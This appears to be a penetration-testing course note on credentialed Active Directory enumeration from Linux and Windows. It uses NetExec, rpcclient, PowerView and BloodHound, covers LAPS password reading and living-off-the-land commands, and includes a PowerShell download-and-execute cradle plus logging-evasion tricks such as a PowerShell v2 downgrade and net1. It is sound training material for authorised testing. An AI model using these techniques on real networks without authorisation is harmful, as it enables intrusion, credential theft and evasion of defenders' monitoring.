

# Credentialed Enumeration

In this section will cover:
- Enumerating Security Controls
- Credentialed Enumeration - from Linux
- Credentialed Enumeration - from Windows
- Living Off the Land

## Enumerating Security Controls

After gaining a foothold, we could use this access to get a feeling for the defensive state of the hosts, enumerate the domain further now that our visibility is not as restricted, and, if necessary, work at "living off the land" by using tools that exist natively on the hosts. It is important to understand the security controls in place in an organization as the products in use can affect the tools we use for our AD enumeration, as well as exploitation and post-exploitation. Understanding the protections we may be up against will help inform our decisions regarding tool usage and assist us in planning our course of action by either avoiding or modifying certain tools. Some organizations have more stringent protections than others, and some do not apply security controls equally throughout. There may be policies applied to certain machines that can make our enumeration more difficult that are not applied on other machines.

### Windows Defender

Windows Defender (or Microsoft Defender after the Windows 10 May 2020 Update) has greatly improved over the years and, by default, will block tools such as PowerView. There are ways to bypass these protections. We can use the built-in PowerShell cmdlet Get-MpComputerStatus to get the current Defender status. Here, we can see that the RealTimeProtectionEnabled parameter is set to True, which means Defender is enabled on the system.
````powershell
# Checking the Status of Defender with Get-MpComputerStatus
> Get-MpComputerStatus
````

### AppLocker

An application whitelist is a list of approved software applications or executables that are allowed to be present and run on a system. The goal is to protect the environment from harmful malware and unapproved software that does not align with the specific business needs of an organization. AppLocker is Microsoft's application whitelisting solution and gives system administrators control over which applications and files users can run. It provides granular control over executables, scripts, Windows installer files, DLLs, packaged apps, and packed app installers. It is common for organizations to block cmd.exe and PowerShell.exe and write access to certain directories, but this can all be bypassed. Organizations also often focus on blocking the PowerShell.exe executable, but forget about the other PowerShell executable locations such as %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe or PowerShell_ISE.exe.
````powershell
# Using Get-AppLockerPolicy cmdlet
> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
````

### PowerShell Constrained Language Mode

PowerShell Constrained Language Mode locks down many of the features needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more. We can quickly enumerate whether we are in Full Language Mode or Constrained Language Mode.
````powershell
# Enumerating Language Mode
> $ExecutionContext.SessionState.LanguageMode
````

### LAPS

The Microsoft Local Administrator Password Solution (LAPS) is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement. We can enumerate what domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. The LAPSToolkit greatly facilitates this with several functions. One is parsing ExtendedRights for all computers with LAPS enabled. This will show groups specifically delegated to read LAPS passwords, which are often users in protected groups. An account that has joined a computer to a domain receives All Extended Rights over that host, and this right gives the account the ability to read passwords. Enumeration may show a user account that can read the LAPS password on a host. This can help us target specific AD users who can read LAPS passwords.

The Find-AdmPwdExtendedRights checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights." Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups, so this is worth checking for. We can use the Get-LAPSComputers function to search for computers that have LAPS enabled when passwords expire, and even the randomized passwords in cleartext if our user has access.
````powershell
# Using Find-LAPSDelegatedGroups
> Find-LAPSDelegatedGroups

# Using Find-AdmPwdExtendedRights
> Find-AdmPwdExtendedRights

# Using Get-LAPSComputers
> Get-LAPSComputers
````

## Credentialed Enumeration - from Linux

Since we have a general idea about the domain's userbase and machines, it's time to enumerate the domain in depth. We are interested in information about domain user and computer attributes, group membership, Group Policy Objects, permissions, ACLs, trusts, and more. We have various options available, but the most important thing to remember is that most of these tools will not work without valid domain user credentials at any permission level. So at a minimum, we will have to have acquired a user's cleartext password, NTLM password hash, or SYSTEM access on a domain-joined host.

### NetExec
````bash
# CME - Domain User Enumeration
$ sudo nxc smb <ip> -u user -p pass --users

# CME - Domain Group Enumeration
$ sudo nxc smb <ip> -u user -p pass --groups

# CME - Logged On Users
$ sudo nxc smb <ip> -u user -p pass --loggedon-users

# CME - Bloodhound Ingestor
$ nxc ldap <ip> -u user -p pass --bloodhound --collection All
$ nxc ldap <ip> -u user -p pass --bloodhound --collection All --dns-server <IP_DC>

# Share Enumeration
$ sudo nxc smb <ip> -u user -p pass --shares

# Share Enumeration Spider Module
$ sudo nxc smb <ip> -u user -p pass -M spider_plus --share 'Department Shares'
````

### SMBMap

SMBMap is great for enumerating SMB shares from a Linux attack host. It can be used to gather a listing of shares, permissions, and share contents if accessible. Once access is obtained, it can be used to download and upload files and execute remote commands.
````bash
# SMBMap To Check Access
$ smbmap -u <user> -p <password> -d <domain> -H <IP>

# Recursive List Of All Directories
$ smbmap -u <user> -p <password> -d <domain> -H <IP> -R 'Department Shares' --dir-only
````

### rpcclient

rpcclient is a handy tool created for use with the Samba protocol and to provide extra functionality via MS-RPC. It can enumerate, add, change, and even remove objects from AD. It is highly versatile; we just have to find the correct command to issue for what we want to accomplish.

While looking at users in rpcclient, you may notice a field called rid: beside each user. A Relative Identifier (RID) is a unique identifier (represented in hexadecimal format) utilized by Windows to track and identify objects. To explain how this fits in, let's look at the examples below:
- The SID for the domain domain is: S-1-5-21-3842939050-3880317879-2865463114.
- When an object is created within a domain, the number above (SID) will be combined with a RID to make a unique value used to represent the object.
- So the domain user student with a RID:[0x457] Hex 0x457 would = decimal 1111, will have a full user SID of: S-1-5-21-3842939050-3880317879-2865463114-1111.
- This is unique to the student object in the domain and you will never see this paired value tied to another object in this domain or any other.

Accounts like the built-in Administrator for a domain will have a RID [administrator] rid:[0x1f4], which, when converted to a decimal value, equals 500. The built-in Administrator account will always have the RID value Hex 0x1f4, or 500.
````bash
# SMB NULL Session with rpcclient
$ rpcclient -U "" -N <IP>

# RPCClient User Enumeration By RID
$> queryuser 0x457

# Enumdomusers
$> enumdomusers
````

### Windapsearch

Windapsearch is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries. It is present in our attack host's /opt/windapsearch/ directory.
````bash
# Windapsearch - Domain Admins
$ python3 windapsearch.py --dc-ip <DC_IP> -u <user>@<domain> -p <password> --da

# Windapsearch - Privileged Users
$ python3 windapsearch.py --dc-ip <DC_IP> -u <user>@<domain> -p <password> -PU
````

## Credentialed Enumeration - from Windows

In this section, we will experiment with a few tools for enumerating from a Windows attack host, such as SharpHound/BloodHound, PowerView/SharpView, Grouper2, Snaffler, and some built-in tools useful for AD enumeration. Some of the data we gather in this phase may provide more information for reporting, not just directly lead to attack paths.

### Methodology

The first tool we will explore is the ActiveDirectory PowerShell module. When landing on a Windows host in the domain, especially one an admin uses, there is a chance you will find valuable tools and scripts on the host.

#### ActiveDirectory
````powershell
# Discover Modules
> Get-Module

# Load ActiveDirectory Module
> Import-Module ActiveDirectory

# Get Domain Info
> Get-ADDomain

# Get-ADUser with SPN
> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Checking For Trust Relationships
> Get-ADTrust -Filter *

# Group Enumeration
> Get-ADGroup -Filter * | select name

# Detailed Group Info
> Get-ADGroup -Identity "Backup Operators"

# Group Membership
> Get-ADGroupMember -Identity "Backup Operators"
````
#### PowerView

PowerView is a tool written in PowerShell to help us gain situational awareness within an AD environment. Much like BloodHound, it provides a way to identify where users are logged in on a network, enumerate domain information such as users, computers, groups, ACLS, trusts, hunt for file shares and passwords, perform Kerberoasting, and more. It is a highly versatile tool that can provide us with great insight into the security posture of our client's domain.

Let's examine some of PowerView's capabilities and see what data it returns. The table below describes some of the most useful functions PowerView offers.

| Command                         | Description                                                                 |
| ------------------------------- | --------------------------------------------------------------------------- |
| Export-PowerViewCSV              | Append results to a CSV file                                                |
| ConvertTo-SID                    | Convert a User or group name to its SID value                               |
| Get-DomainSPNTicket              | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account |

**Domain/LDAP Functions**
| Command               | Description                                                                       |
| --------------------- | --------------------------------------------------------------------------------- |
| Get-Domain            | Will return the AD object for the current (or specified) domain                   |
| Get-DomainController  | Return a list of the Domain Controllers for the specified domain                  |
| Get-DomainUser        | Will return all users or specific user objects in AD                              |
| Get-DomainComputer    | Will return all computers or specific computer objects in AD                      |
| Get-DomainGroup       | Will return all groups or specific group objects in AD                            |
| Get-DomainOU          | Search for all or specific OU objects in AD                                       |
| Find-InterestingDomainAcl | Finds object ACLs in the domain with modification rights set to non-built in objects |
| Get-DomainGroupMember | Will return the members of a specific domain group                                |
| Get-DomainFileServer  | Returns a list of servers likely functioning as file servers                      |
| Get-DomainDFSShare    | Returns a list of all distributed file systems for the current (or specified) domain |

**GPO Functions**
| Command           | Description                                                                 |
| ----------------- | --------------------------------------------------------------------------- |
| Get-DomainGPO     | Will return all GPOs or specific GPO objects in AD                          |
| Get-DomainPolicy  | Returns the default domain policy or the domain controller policy for the current domain |

**Computer Enumeration Functions**
| Command                | Description                                                                 |
| ---------------------- | --------------------------------------------------------------------------- |
| Get-NetLocalGroup      | Enumerates local groups on the local or a remote machine                    |
| Get-NetLocalGroupMember| Enumerates members of a specific local group                                |
| Get-NetShare           | Returns open shares on the local (or a remote) machine                      |
| Get-NetSession         | Will return session information for the local (or a remote) machine         |
| Test-AdminAccess       | Tests if the current user has administrative access to the local (or a remote) machine |

**Threaded 'Meta'-Functions**
| Command                     | Description                                                                 |
| --------------------------- | --------------------------------------------------------------------------- |
| Find-DomainUserLocation     | Finds machines where specific users are logged in                           |
| Find-DomainShare            | Finds reachable shares on domain machines                                   |
| Find-InterestingDomainShareFile | Searches for files matching specific criteria on readable shares in the domain |
| Find-LocalAdminAccess       | Find machines on the local domain where the current user has local administrator access |

**Domain Trust Functions**
| Command                      | Description                                                                 |
| ---------------------------- | --------------------------------------------------------------------------- |
| Get-DomainTrust              | Returns domain trusts for the current domain or a specified domain          |
| Get-ForestTrust              | Returns all forest trusts for the current forest or a specified forest      |
| Get-DomainForeignUser        | Enumerates users who are in groups outside of the user's domain             |
| Get-DomainForeignGroupMember | Enumerates groups with users outside of the group's domain and returns each foreign member |
| Get-DomainTrustMapping       | Will enumerate all trusts for the current domain and any others seen        |

````powershell
# Domain User Information
> Get-DomainUser -Identity <user> -Domain <domain> | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol

# Recursive Group Membership
>  Get-DomainGroupMember -Identity "Domain Admins" -Recurse

# Trust Enumeration
> Get-DomainTrustMapping

# Testing for Local Admin Access
> Test-AdminAccess -ComputerName <computer_name>

# Finding Users With SPN Set
> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
````

#### SharpView

The tool has been receiving updates by BC-Security as part of their Empire 4 framework. Empire 4 is BC-Security's fork of the original Empire project and is actively maintained as of April 2022. We show examples throughout this module using the development version of PowerView because it is an excellent tool for recon in an Active Directory environment, and is still extremely powerful and helpful in modern AD networks even though the original version is not maintained. The BC-SECURITY version of PowerView has some new functions such as Get-NetGmsa, used to hunt for Group Managed Service Accounts
````powershell
> .\SharpView.exe Get-DomainUser -Help

# Enumerate information about a specific user
> .\SharpView.exe Get-DomainUser -Identity <user>
````

## BloodHound

**Linux**
````bash
# Netexec
$ nxc ldap <ip> -u user -p pass --bloodhound --collection All
$ nxc ldap <ip> -u user -p pass --bloodhound --collection All --dns-server <IP>

# Bloodhound-python
$ sudo bloodhound-python -u '<user>' -p '<password>' -ns <IP_DC> -d <domain> -c all
$ sudo bloodhound-python -u '<user>' -p '<password>' -ns <IP_DC> -d <domain> -c all --zip
````
**Windows**
````powershell
# Sharphound
> .\SharpHound.exe -c All --zipfilename <name_zip>

# SharpHound.ps1
> Import-Module .\SharpHound.ps1
> Invoke-BloodHound -CollectionMethod All -Domain <domain> -ZipFileName loot.zip -LdapUsername <user> -LdapPassword "<password>"
````

## Living Off the Land

This section will discuss several techniques for utilizing native Windows tools to perform our enumeration and then practice them from our Windows attack host. This can also be a more stealthy approach and may not create as many log entries and alerts as pulling tools into the network in previous sections. Most enterprise environments nowadays have some form of network monitoring and logging, including IDS/IPS, firewalls, and passive sensors and tools on top of their host-based defenses such as Windows Defender or enterprise EDR. Depending on the environment, they may also have tools that take a baseline of "normal" network traffic and look for anomalies. Because of this, our chances of getting caught go up exponentially when we start pulling tools into the environment from outside.

### Env Commands For Host & Network Recon

#### Basic Enumeration Commands

| Command                                            | Result                                                                 |
| -------------------------------------------------- | ---------------------------------------------------------------------- |
| hostname                                         | Prints the PC's Name                                                   |
| [System.Environment]::OSVersion.Version          | Prints out the OS version and revision level                           |
| wmic qfe get Caption,Description,HotFixID,InstalledOn | Prints the patches and hotfixes applied to the host                    |
| ipconfig /all                                    | Prints out network adapter state and configurations                    |
| set                                              | Displays a list of environment variables for the current session (ran from CMD-prompt) |
| echo %USERDOMAIN%                                | Displays the domain name to which the host belongs (ran from CMD-prompt) |
| echo %logonserver%                               | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |


**Harnessing PowerShell**

| Cmd-Let                                                                                          | Description                                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                     | Lists available modules loaded for use.                                                                                                                                                                    |
| `Get-ExecutionPolicy -List`                                                                      | Will print the execution policy settings for each scope on a host.                                                                                                                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                      | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because it won’t be permanent. |
| `Get-ChildItem Env: \| ft Key,Value`                                                             | Return environment values such as key paths, users, computer information, etc.                                                                                                                             |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`       | With this string, we can get the specified user's PowerShell history. This can be helpful since command history may contain passwords or point us to config files/scripts with credentials.                 |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL'); <follow-on commands>"` | Quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                               |

````powershell
# Downgrade Powershell
> Get-host
> powershell.exe -version 2
````
With Script Block Logging enabled, we can see that whatever we type into the terminal gets sent to this log. If we downgrade to PowerShell V2, this will no longer function correctly. Our actions after will be masked since Script Block Logging does not work below PowerShell 3.0. Notice above in the logs that we can see the commands we issued during a normal shell session, but it stopped after starting a new PowerShell instance in version 2. Be aware that the action of issuing the command powershell.exe -version 2 within the PowerShell session will be logged.


#### Checking Defenses

````powershell
# Firewall Checks
> netsh advfirewall show allprofiles

# Windows Defender Check (from CMD.exe)
> sc query windefend

# Windows Defender Check (from Powershell)
> Get-MpComputerStatus
````

#### Logged-users

When landing on a host for the first time, one important thing is to check and see if you are the only one logged in. If you start taking actions from a host someone else is on, there is the potential for them to notice you. If a popup window launches or a user is logged out of their session, they may report these actions or change their password, and we could lose our foothold.
````powershell
> qwinsta
````

### Network Information

| Networking Commands                        | Description                                                                                                 |
| ------------------------------------------ | ----------------------------------------------------------------------------------------------------------- |
| `arp -a`                                   | Lists all known hosts stored in the ARP table.                                                              |
| `ipconfig /all`                            | Prints out adapter settings for the host. We can figure out the network segment from here.                   |
| `route print`                              | Displays the routing table (IPv4 & IPv6), identifying known networks and layer three routes shared with host. |
| `netsh advfirewall show allprofiles`       | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.          |

### Windows Management Instrumentation (WMI)

Windows Management Instrumentation (WMI) is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts. For our usage, we will create a WMI report on domain users, groups, processes, and other information from our host and other domain hosts.

| Command                                                                                  | Description                                                                                  |
| ---------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                                  | Prints the patch level and description of the Hotfixes applied                               |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List`     | Displays basic host information to include any attributes within the list                    |
| `wmic process list /format:list`                                                         | A listing of all processes on host                                                           |
| `wmic ntdomain list /format:list`                                                        | Displays information about the Domain and Domain Controllers                                 |
| `wmic useraccount list /format:list`                                                     | Displays information about all local accounts and any domain accounts that have logged in     |
| `wmic group list /format:list`                                                           | Information about all local groups                                                           |
| `wmic sysaccount list /format:list`                                                      | Dumps information about any system accounts that are being used as service accounts          |

- https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4

### Net Commands

Net commands can be beneficial to us when attempting to enumerate information from the domain. These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. We can list information such as:
- Local and domain users
- Groups
- Hosts
- Specific users in groups
- Domain Controllers
- Password requirements

| Command                                              | Description                                                                 |
|------------------------------------------------------|-----------------------------------------------------------------------------|
| net accounts                                         | Information about password requirements                                     |
| net accounts /domain                                 | Password and lockout policy                                                 |
| net group /domain                                    | Information about domain groups                                             |
| net group "Domain Admins" /domain                    | List users with domain admin privileges                                     |
| net group "domain computers" /domain                 | List of PCs connected to the domain                                         |
| net group "Domain Controllers" /domain               | List PC accounts of domains controllers                                     |
| net group <domain_group_name> /domain                | User that belongs to the group                                              |
| net groups /domain                                   | List of domain groups                                                       |
| net localgroup                                       | All available groups                                                        |
| net localgroup administrators /domain                | List users that belong to the administrators group inside the domain        |
| net localgroup Administrators                        | Information about a group (admins)                                          |
| net localgroup administrators [username] /add        | Add user to administrators                                                  |
| net share                                            | Check current shares                                                        |
| net user <ACCOUNT_NAME> /domain                      | Get information about a user within the domain                              |
| net user /domain                                     | List all users of the domain                                                |
| net user %username%                                  | Information about the current user                                          |
| net use x: \computer\share                           | Mount the share locally                                                     |
| net view                                             | Get a list of computers                                                     |
| net view /all /domain[:domainname]                   | Shares on the domains                                                       |
| net view \computer /ALL                              | List shares of a computer                                                   |
| net view /domain                                     | List of PCs of the domain                                                   |

Typing **net1** instead of **net** will execute the same functions without the potential trigger from the net string.

### Dsquery

Dsquery is a helpful command-line tool that can be utilized to find Active Directory objects. The queries we run with this tool can be easily replicated with tools like BloodHound and PowerView, but we may not always have those tools at our disposal, as discussed at the beginning of the section. But, it is a likely tool that domain sysadmins are utilizing in their environment. With that in mind, dsquery will exist on any host with the Active Directory Domain Services Role installed, and the dsquery DLL exists on all modern Windows systems by default now and can be found at C:\Windows\System32\dsquery.dll.
````powershell
# User Search
> dsquery user

# Computer Search
> dsquery computer

# Wildcard Search
> dsquery * "CN=Users,DC=<domain>,DC=LOCAL"

# Users With Specific Attributes Set (PASSWD_NOTREQD)
> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

# Searching for Domain Controllers
> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
````

**LDAP Filtering Explained**

You will notice in the queries above that we are using strings such as userAccountControl:1.2.840.113556.1.4.803:=8192. These strings are common LDAP queries that can be used with several different tools too, including AD PowerShell, ldapsearch, and many others.

userAccountControl:1.2.840.113556.1.4.803: Specifies that we are looking at the User Account Control (UAC) attributes for an object. This portion can change to include three different values we will explain below when searching for information in AD (also known as Object Identifiers (OIDs).
=8192 represents the decimal bitmask we want to match in this search. This decimal number corresponds to a corresponding UAC Attribute flag that determines if an attribute like password is not required or account is locked is set. These values can compound and make multiple different bit entries. Below is a quick list of potential values.



**OID match strings**

OIDs are rules used to match bit values with attributes, as seen above. For LDAP and AD, there are three main matching rules:
- 1.2.840.113556.1.4.803
When using this rule as we did in the example above, we are saying the bit value must match completely to meet the search requirements. Great for matching a singular attribute.
- 1.2.840.113556.1.4.804
When using this rule, we are saying that we want our results to show any attribute match if any bit in the chain matches. This works in the case of an object having multiple attributes set.
- 1.2.840.113556.1.4.1941
This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.
